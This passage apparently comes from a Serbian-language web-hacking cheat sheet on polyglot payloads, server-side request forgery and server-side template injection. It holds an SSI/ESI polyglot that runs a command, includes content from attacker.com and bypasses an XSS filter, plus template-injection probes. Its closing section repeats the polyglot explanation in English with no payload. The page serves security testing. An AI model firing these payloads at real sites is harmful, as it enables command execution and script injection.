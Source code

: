 ### Poligloti

Poliglot je datoteka koja se može tumačiti kao različiti tipovi datoteka u zavisnosti od konteksta u kojem se izvršava. U kontekstu hakovanja veb stranica, poligloti se mogu koristiti za zaobilaženje sigurnosnih mera i izvršavanje zlonamernog koda.

Poligloti se obično stvaraju iskorišćavanjem sličnosti između različitih formata datoteka. Pažljivim oblikovanjem datoteke koja se pridržava specifikacija više formata datoteka, moguće je stvoriti poliglot koji se može različito tumačiti od strane različitih aplikacija.

Poligloti se mogu koristiti na različite načine tokom hakovanja veb stranica. Na primer, poliglot datoteka može se otpremiti na veb aplikaciju koja vrši validaciju tipa datoteke. Ako aplikacija proverava samo ekstenziju datoteke, ali ne i sadržaj datoteke, može greškom tumačiti poliglot kao drugi tip datoteke, omogućavajući napadaču da zaobiđe sigurnosne mere.

Poligloti se takođe mogu koristiti za iskorišćavanje ranjivosti u određenim parserima datoteka. Stvaranjem datoteke koja pokreće ranjivost u određenom parseru, napadač može izvršiti proizvoljni kod ili dobiti neovlašćen pristup sistemu.

Prilikom rada sa poliglotima, važno je razumeti specifikacije uključenih formata datoteka i ponašanje aplikacija koje ih tumače. Ovo znanje je ključno za oblikovanje efikasnih poliglota i iskorišćavanje ranjivosti.

```markup
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```

## [Forgiranje zahteva sa serverske strane](../ssrf-server-side-request-forgery/)

Isti testovi koji se koriste za otvoreno preusmeravanje mogu se koristiti i ovde.

## [Umetanje predloška sa serverske strane](../ssti-server-side-template-injection/)

### Osnovni testovi

```markup
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

### Poligloti

A polyglot is a file that can be interpreted as different file types depending on the context in which it is executed. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.
